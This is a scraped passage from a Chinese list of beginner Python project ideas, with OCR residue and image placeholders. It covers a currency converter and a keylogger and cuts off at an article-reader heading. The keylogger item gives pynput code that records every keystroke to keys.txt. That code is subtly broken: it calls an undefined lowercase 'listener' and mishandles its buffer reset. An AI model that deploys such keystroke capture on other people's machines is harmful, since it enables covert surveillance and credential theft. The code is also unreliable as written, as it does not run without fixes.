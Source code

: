 ```
print(result)



```

获取结果如下。

![Image](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

************⑲******** 货币换算器****

目的：编写一个Python脚本，可以将一种货币转换为其他用户选择的货币。

提示：使用Python中的API，或者通过forex-python模块来获取实时的货币汇率。

安装：forex-python

![Image](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

************⑳******** 键盘记录器****

目的：编写一个Python脚本，将用户按下的所有键保存在一个文本文件中。

提示：pynput是Python中的一个库，用于控制键盘和鼠标的移动，它也可以用于制作键盘记录器。简单地读取用户按下的键，并在一定数量的键后将它们保存在一个文本文件中。

```


from pynput.keyboard import Key, Controller,Listener
import time
keyboard = Controller()
keys=[]
def on_press(key):
    global keys
    #keys.append(str(key).replace("'",""))
    string = str(key).replace("'","")
    keys.append(string)
    main_string = "".join(keys)
    print(main_string)
    if len(main_string)>15:
      with open('keys.txt', 'a') as f:
          f.write(main_string)   
          keys= []     
def on_release(key):
    if key == Key.esc:
        return False
with listener(on_press=on_press,on_release=on_release) as listener:
    listener.join()



```

************㉑******** 文章朗读器****
